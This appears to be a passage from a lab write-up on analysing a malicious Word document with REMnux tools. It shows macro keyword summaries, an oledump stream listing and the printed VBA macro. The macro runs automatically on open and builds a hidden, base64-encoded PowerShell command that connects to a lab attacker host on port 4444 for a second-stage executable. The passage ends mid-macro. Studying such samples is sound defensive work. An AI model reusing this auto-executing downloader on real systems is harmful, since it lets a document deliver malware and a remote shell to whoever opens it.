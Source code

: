 The above output shows the macros found within the document. The summary of key elements is show below.

``` sh
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Wscript.Shell       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|powershell          |May run PowerShell commands                  |
|Suspicious|CreateObject        |May create an OLE object                     |
|IOC       |powershell.exe      |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

The summary show that:

- The document will automatically execute when it will be opened.
- It contains suspicious Bas64 strings and powershell code

`oledump` is a tool for analyzing and extracting streams to detect and examine potentially malicious content like macros or embedded objects.  

``` sh
remnux@thm-remnux:~/worddoc$ oledump.py suspicious.doc 
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      7385 '1Table'
  5:       412 'Macros/PROJECT'
  6:        71 'Macros/PROJECTwm'
  7: M    3303 'Macros/VBA/NewMacros'
  8: m     938 'Macros/VBA/ThisDocument'
  9:      2634 'Macros/VBA/_VBA_PROJECT'
 10:       569 'Macros/VBA/dir'
 11:      4096 'WordDocument'

```

Objects are represented with numbers, which can be accessed using the `-sX` flag, where *X* is the object number. Moreover, metadata can be shown like with `olemeta` with the `-M` flag.
In order to clearly see the VBA and not a raw binary flow, we must use the `-v` flag to decompress VBA.

``` sh
remnux@thm-remnux:~/worddoc$ oledump.py -s7 -v suspicious.doc 
Attribute VB_Name = "NewMacros"
Sub AutoOpen()
        AutoOpenMacro
End Sub

Sub Document_Open()
        AutoOpenMacro
End Sub

Sub AutoOpenMacro()
        Dim Str As String

        Str = Str + "powershell.exe -nop -w hidden -e bGllbnQgPSBOZXctT"
        Str = Str + "2JqZWN0IFN5c3RlbS5OZXQuU29ja2V0cy5UQ1BDbGllbnQoImh"
        Str = Str + "0dHA6Ly90aG1yZWR0ZWFtLnRobS9zdGFnZTIuZXhlIiw0NDQ0K"
```